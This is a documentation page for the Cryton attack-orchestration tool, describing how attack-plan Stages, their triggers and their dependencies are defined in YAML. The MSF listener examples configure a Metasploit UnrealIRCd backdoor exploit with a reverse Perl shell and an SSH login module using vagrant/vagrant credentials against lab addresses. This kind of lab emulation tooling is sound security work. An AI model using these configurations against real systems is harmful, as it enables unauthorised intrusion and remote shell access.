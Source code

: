 A stage is a unit defined by a target and its trigger (for example time of start). It contains a list of attack 
[Steps](step.md) that are related to each other.

![](../images/design-stage.png)

Example of defining Stage using YAML:
```yaml
name: my-stage
meta:
  description: This is an example description
  ...
trigger_type: delta
trigger_args:
minutes: 5
steps:
  ...
depends_on:
  - previous-stage

```

To better understand what each argument means and defines, here is a short description:  

- **name** - Sets the name of the Stage, which is mainly used to define its purpose (**must be unique** across the Plan).
- **meta** - An undefined dictionary containing metadata. The `description` parameter is just an example, you can define your own.
- **trigger_type** - Type of the trigger to be used. For more details see [triggers](#triggers).
- **trigger_args** - Dictionary arguments, that are specific for each type of trigger. For more details see [triggers](#triggers).
- **steps** - List of related [Steps](step.md) that will be executed during the Stage's execution.
- **depends_on** - If the Stage depends on other Stages' actions, we can tell the Stage to wait until the other Stages are finished. 
For more details see [dependencies](#dependencies).

## Triggers

### Delta
Schedule execution for a specific time after the plan start, e.g. `minutes: 30`.

#### Examples
```yaml
trigger_type: delta
trigger_args:
  hours: 0  # Wait for x hours.
  minutes: 0  # Wait for x minutes.
  seconds: 0  # Wait for x seconds.
```

### DateTime
Schedule execution for a specific date and time after the plan started.

**Trigger arguments:**

**Notice:** One argument from the Date and Time part of arguments (every argument except `timezone`) is required. Besides that, arguments are optional and their default values are used in their absence.

| Argument | Description                                                                                                                                       | Default                                                   |
|----------|---------------------------------------------------------------------------------------------------------------------------------------------------|-----------------------------------------------------------|
| timezone | Timezone for DateTime trigger. List of available timezones [here](https://en.wikipedia.org/wiki/List_of_tz_database_time_zones){target="_blank"}. | UTC                                                       |
| year     | Year in which stage should be executed.                                                                                                           | The year of the plan execution in the specified timezone  |
| month    | Month in which stage should be executed.                                                                                                          | The month of the plan execution in the specified timezone |
| day      | Day in which stage should be executed.                                                                                                            | The day of the plan execution in the specified timezone   |
| hour     | Hour in which stage should be executed.                                                                                                           | 00                                                        |
| minute   | Minute in which stage should be executed.                                                                                                         | 00                                                        |
| second   | Second in which stage should be executed.                                                                                                         | 00                                                        |


#### Examples
```yaml
# This stage would be executed on 2022-01-01 08:20:00 in Europe/Prague timezone
trigger_type: datetime
trigger_args:
  timezone: Europe/Prague
  year: 2022
  month: 1
  day: 1
  hour: 8
  minute: 20
  second: 00
```

```yaml
# This stage would be executed at 16:00 UTC on the day of the plan execution
trigger_type: datetime
trigger_args:
  hour: 16
```

### HTTP listener
The stage will be executed on specific data received in the HTTP request (GET/POST) on the listener.
An example can be found [here](https://gitlab.ics.muni.cz/cryton/cryton-core/-/blob/stable/1/examples/http-trigger-example/template.yml).

```yaml
trigger_type: HTTPListener
trigger_args:
  host: localhost  # Address of the listener from the Worker's perspective.
  port: 8082  # Port of the listener from the Worker's perspective.
  routes:  # List of routes the listener will check for requests.
    - path: /index  # Request's path.
      method: GET   # Request's allowed method.
      parameters:  # Request's required parameters.
        - name: parameter  # Parameter's name.
          value: value  # Parameter's value.
```

### MSF listener
The stage will be executed when a session with the user-defined arguments is returned from Worker. Once the session is saved, 
it can be used in a Step with `use_named_session: my-stage-name_session`, where `my-stage-name` is the Stage's name.  
An example can be found [here](https://gitlab.ics.muni.cz/cryton/cryton-core/-/blob/stable/1/examples/msf-trigger-example/template.yml).

The only downside is that it doesn't support the [output sharing](step.md#output-sharing) feature.

Identifiers are arguments that can be used to identify an MSF session that we are waiting for to trigger the Stage.  
By default, the MSFTrigger will try to find a match using the `via_exploit` and `via_payload` parameters based on the used MSF module and payload. You can override this behavior using the `indentifiers` parameter.  
Since the values in identifiers can be substrings. You can use `handler` to match `exploit/multi/handler`.
```yaml
trigger_type: MSFListener
trigger_args:
  identifiers: # Optional
    type: shell
    tunnel_local: 192.168.56.50:4444
    tunnel_peer: 192.168.56.51:35380
    via_exploit: exploit/unix/irc/unreal_ircd_3281_backdoor
    via_payload: payload/cmd/unix/reverse_perl
    desc: Command shell
    info: ''
    workspace: 'false'
    session_host: 192.168.56.50
    session_port: '4444'
    target_host: ''
    username: vagrant
    uuid: o3mnfksh
    exploit_uuid: vkzl8sib
    routes: ''
    arch: python
  exploit: unix/irc/unreal_ircd_3281_backdoor  # Exploit to use.
  exploit_arguments:  # Arguments that will be passed to the exploit.
    RHOST: 192.168.56.51
    RPORT: 6697
  payload: cmd/unix/reverse_perl  # Payload to use.
  payload_arguments:  # Arguments that will be passed to the payload.
    LHOST: 192.168.56.50
    LPORT: 4444

```

```yaml
trigger_type: MSFListener
trigger_args:
  identifiers:
    via_exploit: auxiliary/scanner/ssh/ssh_login
    username: vagrant
  auxiliary: scanner/ssh/ssh_login  # Auxiliary module to use.
  auxiliary_arguments:  # Arguments that will be passed to the auxiliary module.
    RHOSTS: 192.168.56.51
    USERNAME: vagrant
    PASSWORD: vagrant

```

## Dependencies
Creating time-based triggers can be limiting, since the Stage itself can take more time than expected. To ensure that 
the Stages will execute in the correct order, you can choose to check if some other Stage has already 
finished, before its execution. All you have to do is define the `depends_on` argument. 

This way you can ensure that the sessions and gathered output from other Stages are available.

```yaml
name: stage-name
depends_on:
- other-stage

```
